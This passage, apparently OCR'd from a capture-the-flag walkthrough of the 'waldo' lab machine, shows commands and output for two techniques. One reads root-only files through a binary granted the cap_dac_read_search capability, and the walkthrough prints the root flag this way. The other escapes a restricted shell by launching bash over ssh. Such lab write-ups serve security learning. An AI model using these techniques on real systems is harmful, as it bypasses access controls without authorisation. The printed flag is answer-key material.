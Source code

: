```bash
$ ./bash
bash: dircolors: command not found
monitor@waldo:/bin$
```

- run `./getcap` on `/usr/bin` folder to check what capabilities each binary has

- 
```bash
$ ./getcap -v -r /usr/bin/ 
```
- one binary stands out is `tac`, which has capability `cap_dac_read_search`
```bash
/usr/bin/tac = cap_dac_read_search+ei
```

- `cap_dac_read_search+ei` : This allows to read files as root 

```bash
monitor@waldo:/usr/bin$ ./tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```

__Escaping rbash via ssh__

```bash
waldo:~/.ssh$ ssh -i.monitor  monitor@127.0.0.1 'echo $PATH'
/usr/local/bin:/usr/bin:/bin:/usr/games
```

- notice the path has changed when run through `ssh`

```bash
waldo:~/.ssh$ ssh -i.monitor  monitor@127.0.0.1 bash
ls
app-dev
bin
cd /bin
ls
bash
bunzip2
busybox
bzcat
bzcmp
bzdiff
bzegrep
```